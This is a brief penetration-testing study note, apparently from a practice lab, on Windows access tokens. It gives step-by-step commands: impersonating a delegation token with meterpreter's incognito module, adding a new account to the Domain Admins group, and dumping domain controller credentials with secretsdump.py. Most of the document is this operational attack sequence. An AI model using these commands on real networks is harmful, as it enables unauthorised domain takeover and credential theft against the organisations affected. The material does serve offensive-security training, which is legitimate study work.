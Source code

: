Tokens are temporary keys that allow you to access a system/network without providing a password every time. e.g. cookies but for computers.

Two types:
* Delegate - Created for logging into a machine or using Remote Desktop.
* Impersonate - "non-interactive" such as attaching a network drive or a domain logon script.
Delegation tokens can be used to impersonate other users.
# How to do it - Delegation tokens
Get a meterpreter shell. Then do the following:
```powershell
load incognito
list_tokens -u # Lists delegation tokens

impersonate_token [TOKEN]
# e.g the token is MARVEL\fcastle, the command would be: 
impersonate_token MARVEL\\fcastle # Extra \ as an escape character

shell
```
Next,  a new Domain Admin user can be created.
```batch
net user /add [USERNAME] [PASSWORD] /domain
net group "Domain Admins" [USERNAME] /add /domain
```
Finally, secretsdump.py can be run against the new user to compromise the Domain Controller.
```bash
secretsdump.py [DOMAIN]/[USERNAME]:'[PASSWORD]'@[DC IP]
```
